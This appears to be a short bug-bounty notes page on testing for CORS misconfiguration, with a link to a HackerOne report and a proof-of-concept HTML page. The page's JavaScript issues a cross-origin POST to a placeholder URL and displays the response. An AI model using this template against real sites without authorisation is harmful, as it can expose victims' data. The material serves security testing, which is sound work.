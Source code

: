 # Cors-Origin

Inspect if application checks that the value of the "Origin" HTTP header is consistent with the value of the remote IP address/Host of the sender of the incoming HTTP request.

Inspect if application check that the value of the "Origin" HTTP header is consistent with the value of the remote IP address/Host of the sender of the incoming HTTP request.

```
SENSITIVE_METHODS = ('PUT', 'DELETE')
COMMON_METHODS = ('POST', 'GET', 'OPTIONS', 'PUT', 'DELETE')
```

Good example from H1
https://hackerone.com/reports/235200

### Post based CORS Misconfiguration PoC

```
<html>
<script>
var http = new XMLHttpRequest();
var url = 'Url';//Paste here Url
var params = 'PostData';//Paste here POST data
http.open('POST', url, true);

//Send the proper header information along with the request
http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');

http.onreadystatechange = function() {//Call a function when the state changes.
    if(http.readyState == 4 && http.status == 200) {
        alert(http.responseText);
    }
}
http.send(params);

</script>
</html>
```
